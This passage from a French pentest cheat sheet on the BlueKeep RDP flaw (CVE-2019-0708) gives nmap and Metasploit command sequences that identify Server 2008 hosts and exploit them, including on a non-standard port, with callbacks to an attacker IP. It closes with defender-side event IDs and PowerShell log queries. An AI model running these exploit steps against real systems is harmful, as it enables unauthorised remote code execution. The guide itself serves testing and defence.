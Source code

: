 ```bash
```

### Scénario 2: Server 2008 BlueKeep
```bash
# 1. Identification Server 2008
nmap -p3389 --script rdp-ntlm-info target
# Target_Name: WIN-SERVER2008

# 2. Scan BlueKeep
use auxiliary/scanner/rdp/cve_2019_0708_bluekeep_rce
set RHOSTS target
exploit

# 3. Si vulnérable → Exploitation
use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
set RHOSTS target
set LHOST attacker_ip
exploit
```

### Scénario 3: BlueKeep sur port alternatif
```bash
# 1. RDP sur port non-standard
nmap -p3333 -sV target
# Service: ms-wbt-server

# 2. Test BlueKeep port custom
nmap -p3333 --script rdp-vuln-ms19-0708 target

# 3. Exploitation port custom
use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
set RHOSTS target
set RPORT 3333
set LHOST attacker_ip
exploit
```

---

## 🛡️ 9. Détection et mitigation BlueKeep

### Détection côté défenseur
```powershell
# Logs Windows à surveiller
# Event ID 56: RDP Terminal Services fatal error
# Event ID 1006: RDP unexpected disconnection
# Event ID 9009: RDP desktop disconnected

Get-EventLog -LogName System | Where-Object {$_.EventID -eq 56}
Get-WinEvent -FilterHashtable @{LogName='Microsoft-Windows-RemoteDesktopServices-RdpCoreTS/Operational'}
```
